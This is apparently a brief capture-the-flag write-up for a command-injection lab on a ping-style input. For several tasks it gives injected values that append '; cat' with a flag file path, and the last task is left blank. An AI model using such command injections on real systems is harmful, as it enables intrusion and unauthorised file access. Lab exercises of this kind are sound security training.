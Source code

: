 
---
### Solutions:

- Task 0:
	- Since flag is at ./0-flag.txt we enter ``[domain]; cat /0-flag.txt``

- Task 1:
	- Since ping is still vulnerable, we enter ``[domain]; cat /etc/1-flag.txt``

- Task 2:
	- Just use ``[domain]; cat /var/2-flag.txt``

- Task 3:
	- 
